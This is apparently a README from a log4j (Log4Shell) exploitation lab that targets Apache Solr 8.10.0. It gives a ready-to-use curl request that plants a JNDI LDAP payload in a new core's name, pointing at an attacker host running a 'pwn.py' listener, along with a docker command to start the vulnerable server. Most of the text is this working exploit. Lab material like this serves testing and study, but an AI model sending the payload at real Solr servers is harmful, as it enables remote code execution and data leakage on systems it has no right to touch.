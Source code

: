 # apache solr

Version: `8.10.0`

Can be triggered by configuring a new core, naming it the log4j payload.

This cURL request should do (where `host` is where [pwn.py](../../../pwn.py) is running with the `-k` flag):

```bash
curl 'http://localhost:8983/solr/admin/cores?_=1639544088432&action=CREATE&config=solrconfig.xml&dataDir=data&instanceDir=new_core&name=$%7Bjndi:ldap:%2F%2Fhost:5456%2F$%7Bjava:version%7D%7D&schema=schema.xml&wt=json'
```

## run

```bash
docker run --rm --name solr -p 8983:8983 solr:8.10.0
```

## example

![1](images/1.png)
